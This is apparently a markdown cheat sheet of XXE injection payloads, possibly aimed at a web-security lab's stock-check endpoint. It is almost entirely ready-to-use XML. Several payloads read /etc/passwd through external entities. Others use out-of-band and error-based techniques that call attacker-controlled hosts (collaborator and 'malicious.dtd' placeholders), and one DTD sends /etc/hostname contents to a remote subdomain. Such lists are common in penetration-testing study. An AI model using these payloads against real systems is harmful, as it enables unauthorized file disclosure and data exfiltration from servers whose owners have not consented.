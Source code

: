 ## XXE Payloads
### Inband XXE with general entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockchange>
<product>
<id>&xxe;</id>
</product>
</stockchange>
```
### Inband XXE with parameter entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "file:///etc/passwd"> %xxe; ]>
<stockchange>
<product>
<id>1</id>
</product>
</stockchange>
```
### Out of band XXE with general entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://BURP_COLLABORATOR"> ]>
<stockchange>
<product>
<id>&xxe;</id>
</product>
</stockchange>
```
### Out of band XXE with parameter entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://BURP_COLLABORATOR"> %xxe;]>
<stockchange>
<product>
<id>1</id>
</product>
</stockchange>
```
### Error based XXE with general entity
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://SERVER/malicious.dtd">]>
<stockchange>
<product>
<id>&xxe;</id>
</product>
</stockchange>
```
### Error based XXE with parameter entity(inband)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://SERVER/malicious.dtd"> %xxe;]>
<stockchange>
<product>
<id>1</id>
</product>
</stockchange>
```
malicious.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil
```
### Error based XXE with parameter entity(out of band)[Recieving response on burp collobarotor]
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
malicious.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```